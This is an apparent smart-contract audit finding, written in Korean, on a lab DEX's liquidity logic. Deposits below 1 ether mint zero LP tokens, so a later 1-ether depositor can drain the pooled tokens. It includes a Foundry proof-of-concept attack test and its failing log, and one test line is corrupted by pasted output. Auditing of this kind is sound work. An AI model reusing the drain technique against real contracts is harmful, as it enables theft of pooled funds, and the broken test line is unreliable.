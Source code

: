 ```jsx
	...
}
```

oracle을 통해 토큰의 가격을 설정하는 과정에서 오류가 발생한다.

유동성 공급 시 1 ether 미만의 양을 공급할 시 유동성 풀에는 토큰이 들어간다.

하지만 setPrice를 각각 0으로 설정하는 동시에 LPTokenAmount로 0을 반환한다.

따라서 1 ether 이상의 유동성이 공급될 때까지 lptTotalSupply = 0으로 설정된 채로 addLiquidity 함수가 실행된다.

### 파급력

Informational

- 산정 이유
    - 첫 유동성 공급자, 즉 service provider가 유의하면 문제는 발생하지 않는다. 유동성 공급 과정에서 1 ether 이상을 보낸 일이 없어야 한다.
    - 문제가 발생할 가능성이 거의 없다.
- 공격 시나리오
    
    ```jsx
    function testSetPrice() external {
      DreamOracle dreamOracle;
      for (uint i = 0; i < 100; i++) {
          uint firstLPReturn = dex.addLiquidity(0.9 ether, 0.9 ether, 0);
      }
      emit log_named_uint("X balance", tokenX.balanceOf(address(dex)));
      emit log_named_uint("Y balance", tokenY.balanceOf(address(dex)));
    
      // uint LPReturn = dex.addLiquidity(1 ether, 1 ether, 0);
    
      uint LPReturn = dex.addLiquidity(1 ether, 1 ether, 0);
    
      (uint tx, uint ty) = dex.removeLiquidity(LPReturn, 0, 0);
      emit log_named_uint("Attacker LP remove", tx);
      emit log_named_uint("Attacker LP remove", ty);
      assertEq(tx, 1 ether);
      assertEq(ty, 1 ether); 
      vm.stopPrank();
    
      uint LPReturn2 = dex.addLiquidity(0.9 ether, 0.9 ether, 0);
    
      (uint tx2, uint ty2) = dex.removeLiquidity(LPReturn2, 0, 0);
      emit log_named_uint("Attacker LP2 remove", tx2);
      emit log_named_uint("Attacker LP2 remove", ty2);
      assertEq(tx2, 0.9 ether);
      assertEq(ty2, 0.9[FAIL. Reason: Assertion failed.] testSetPrice() (gas: 1961494)
      vm.stopPrank();
    }
    ```
    
    ```jsx
    [FAIL. Reason: Assertion failed.] testSetPrice() (gas: 1961494)
    Logs:
      X balance: 90000000000000000000
      Y balance: 90000000000000000000
      Attacker LP remove: 91000000000000000000
      Attacker LP remove: 91000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Error: a == b not satisfied [uint]
            Left: 91000000000000000000
           Right: 1000000000000000000
      Attacker LP2 remove: 1000000000000000000
      Attacker LP2 remove: 1000000000000000000
    ```
    
